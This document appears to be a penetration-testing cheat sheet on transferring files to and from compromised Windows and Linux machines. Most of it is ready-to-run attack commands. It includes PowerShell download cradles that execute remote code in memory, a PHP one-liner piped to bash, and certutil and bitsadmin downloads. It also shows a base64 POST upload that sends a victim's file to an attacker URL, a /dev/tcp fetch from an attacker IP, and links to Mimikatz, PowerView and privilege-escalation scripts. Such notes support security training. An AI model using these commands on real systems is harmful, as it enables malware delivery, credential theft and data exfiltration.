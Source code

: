 # File Transfers

## Windows

### Downloads 

#### Powershell (via HTTP)

> `iwr`, `curl`, and `wget`

Any version of `Powershell`:

```powershell
(New-Object System.Net.WebClient).DownloadFile('<URL>',"<DEST_FILEPATH>") # DEST_FILEPATH could be "C:\Users\Public\Downloads\PowerView.ps1" for instance
```

From `PowerShell 3.0`:

```powershell
Invoke-WebRequest <URL> -OutFile <DEST_FILEPATH>
```

Instead of downloading to disk, the payload can instead be executed in memory:

```powershell
IEX (New-Object Net.WebClient).DownloadString('<URL>')

# or directly with a pipeline
Invoke-WebRequest <URL> | iex
```

If we encounter, the error below, we can bypass it with the following flag `-UseBasicParsing`:

![IE error](img/file-transfer/IEerror.png)

```powershell
Invoke-WebRequest <URL> -UseBasicParsing | iex
```

#### Bitsadmin

```powershell
bitsadmin /transfer n <URL> <DEST_FILEPATH>

# or by interacting with powershell
Import-Module bitstransfer;Start-BitsTransfer -Source "<URL>" -Destination "<DEST_FILEPATH>"
```

#### Certutil

> Antimalware Scan Interface (**AMSI**) currently detects the following command as malicious certutil usage

```cmd
certutil.exe -verifyctl -split -f <URL>
```

___

### Uploads

#### Powershell (via HTTP)

```powershell
PS C:\> $b64 = [System.convert]::ToBase64String((Get-Content -Path '<FILE_PATH>' -Encoding Byte))
PS C:\> Invoke-WebRequest -Uri <ATTACKER_URL> -Method POST -Body $b64
```

> On Linux, we can use ` echo <base64> | base64 -d -w 0 > <output_filename>`

#### Powershell (via Bitsadmin)

```powershell
Start-BitsTransfer "<DEST_FILEPATH>" -Destination "<URL>" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql
```

### Useful URLs

- https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS
- https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1
- https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1
- [DownloadCradles.ps1](https://gist.github.com/HarmJ0y/bb48307ffa663256e239)
___

## Linux

### Downloads

#### Classical commands

```bash
wget <URL> -O <DEST_FILEPATH>

curl -o <DEST_FILEPATH> <URL>
```

#### `/dev/tcp`

```bash
exec 3<>/dev/tcp/<ATTACKER_IP>/<ATTACKER_PORT>
echo -e "GET /<FILENAME> HTTP/1.1\n\n">&3
cat <&3
```

#### PHP

```bash
# file_get_contents()
php -r '$file = file_get_contents("<URL>"); file_put_contents("<FILENAME>",$file);'

# fopen()
php -r 'const BUFFER = 1024; $fremote = 
fopen("<URL>", "rb"); $flocal = fopen("<FILENAME>", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'

# php-curl
php -r '$rfile = "<URL>"; $lfile = "<FILENAME>"; $fp = fopen($lfile, "w+"); $ch = curl_init($rfile); curl_setopt($ch, CURLOPT_FILE, $fp); curl_setopt($ch, CURLOPT_TIMEOUT, 20); curl_exec($ch);'

##  retrieve each line
php -r '$lines = @file("<URL>"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

#### Python2

```bash
python2 -c 'import urllib; urllib.urlretrieve("<URL>", "<FILENAME>")'
```

#### Python3

```bash
python3 -c 'import urllib.request; urllib.request.urlretrieve("<URL>", "<FILENAME>")'
```

> Obviously, other programming languages can be used such as 

___

### Uploads

### Useful URLs

- https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
- https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh